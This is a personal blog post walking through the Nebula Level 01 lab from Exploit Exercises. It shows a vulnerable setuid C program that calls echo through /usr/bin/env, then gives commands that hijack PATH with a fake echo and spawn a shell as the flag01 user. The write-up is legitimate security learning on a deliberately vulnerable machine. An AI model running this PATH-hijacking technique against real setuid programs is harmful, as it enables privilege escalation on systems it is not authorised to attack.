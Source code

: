 ```yaml
---
author: alvaro
comments: true
layout: post
title: 'Nebula Level 01'
categories:
- Archive
tags:
- security
---
```


I’ve been reading about security these months ago. I really enjoy learning each day but I think that sometimes is to much theory and I felt the necessity to start practice and gain more confidence about what I was reading. Please you do not misunderstand me, I think that theory plays a main role in security but in the process of learning the practice give you more sight about everything.

Yesterday I downloaded the first virtual machine from [Exploit Exercises](https://exploit-exercises.com). The second exercise show you the next snippet and it encourages you to try find out the vulnerability . 


```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Basically the `setresgid` and `setresuid` set the program to run with the owner’s permission. These functions have some kind of nuances depending in the system where they are executed. I encourage to read the following [paper](https://www.usenix.org/legacy/event/sec02/full_papers/chen/chen.pdf) to understand it better. Perhaps in other post I will write about them, because thanks to the book [The Art of Software Security Assessment](http://www.amazon.es/The-Software-Security-Assessment-Vulnerabilities/dp/0321444426) I have learned a little bit about their nuances. In this case the file has an user `flag01` since if in the terminal we execute we observe.

```bash
$ find . -type f -perm +6000 -ls 2> /dev/null
12962    8 -rwsr-x---   1 flag01   level01      7322 Nov 20  2011 ./flag01
```

It is a suid program. It Sets the Real, Effective and Saved UIDs the same as the Effective UID. This is so that the SUID process is now effectively running as if called by the owner `flag01`. The main issue with this snippet is when it calls `echo` without specifying the absolute path or using `/usr/bin/env` because otherwise it would have execute the built-in echo. But how it uses`/usr/bin/env` it will try to find the echo executable in the variable $PATH. However $PATH is controlled by us, so we could trick the program to use another malicious echo binary. It would be enough to do the next to get a shell.

```bash
$ echo '/bin/sh' > /path/echo
$ chmod +x /path/echo
$ PATH=/path/:$PATH
$ ./flag01
sh-4.2$
```

I know that maybe this exercise is easy but as always we have to start from the beginning and never stop to grow. 


{% include twitter_plug.html %}

	